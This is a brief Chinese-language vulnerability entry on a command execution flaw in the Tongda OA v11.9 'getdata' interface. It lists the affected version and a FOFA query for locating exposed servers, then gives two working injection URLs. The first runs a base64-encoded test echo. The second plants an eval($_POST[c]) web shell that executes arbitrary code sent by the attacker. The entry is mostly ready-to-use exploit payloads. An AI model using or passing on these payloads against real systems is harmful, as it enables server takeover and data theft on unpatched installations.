

# 通达OA v11.9 getdata 任意命令执行漏洞

## 漏洞描述

通达OA v11.9 getdata接口存在任意命令执行漏洞，攻击者通过漏洞可以执行服务器任意命令控制服务器权限

## 漏洞影响

```
通达OA v11.9
```

## FOFA

```
app="通达OA网络智能办公系统"
```

## 漏洞复现

登录页面


验证POC

```
/general/appbuilder/web/portal/gateway/getdata?activeTab=%E5%27%19,1%3D%3Eeval(base64_decode(%22ZWNobyB2dWxuX3Rlc3Q7%22)))%3B/*&id=19&module=Carouselimage
```



```
/general/appbuilder/web/portal/gateway/getdata?activeTab=%E5%27%19,1%3D%3Eeval($_POST[c]))%3B/*&id=19&module=Carouselimage
```